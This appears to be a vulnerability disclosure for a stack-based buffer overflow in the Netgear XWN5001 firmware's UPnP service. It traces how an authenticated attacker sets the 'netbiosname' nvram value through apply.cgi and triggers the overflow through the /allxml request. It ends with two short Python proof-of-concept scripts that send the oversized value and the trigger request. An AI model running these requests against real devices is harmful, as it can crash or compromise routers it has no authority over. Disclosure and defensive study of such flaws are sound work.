





# netgear xwn5001 stack-based buffer overflow

## product information

vendor: netgear

product: xwn5001

version: 0.4.11

URL: https://www.netgear.com/support/product/xwn5001/#download


## vulnerability description

In netgear xwn5001 binary `/usr/sbin/upnp`, a stack-based buffer overflow can be found in function `device_xml`. Authenticated Attackers can control nvram value `netbiosname` to trigger the buffer overflow. `netbiosname`can be controlled by sending a malicious packet to firmware's http service via network packet.

## vulnerability analysis

### control `netbiosname`

In `/usr/sbin/uhttpd`, authenicated attacker can send a packet to `apply.cgi` with parameter `submit_flag=mulpppoe` and `device_name=<attacker control data>`. The following code shows the handler function of `mulppope`(In address 0x4355D8)

 

Now attacker can control `netbiosname` in nvram.

### exploit `netbiosname`

In `/usr/sbin/upnp`, when received an `GET` request, the following function `sub_4084c0` will be executed.



In function `sub_4084c0`

function `device_xml` will be invoked if device_iterator(0) return is not NULL.



The device_iterator(0) will always return value since the global `root_device` is written during the initialization.



Now , in the function `device_xml`, the following code contains stack-based buffer overflow vulnerability. The device use `nvram_get` to retrive value stored in `netbiosname`, and use `sprintf` to write the value into stack, which will cause stack-based buffer overflow. 



# exploit

For the first stage, controlling `netbiosname`

```python
import requests
IP = "192.168.1.1"
url = f"http://{IP}" + "/apply.cgi"

my_obj = {'submit_flag':'mulpppoe', 'device_name':'a'*0x1000}
x = requests.post(url, data=my_obj)
```


Second stage, triggering buffer overflow. Sending the following packet to UPNP service

```python
import requests
UPNP_PORT = 3074
IP = "192.168.1.1:{UPNP_PORT}"
url = f"http://{IP}" + "/allxml"

x = requests.get(url)
```

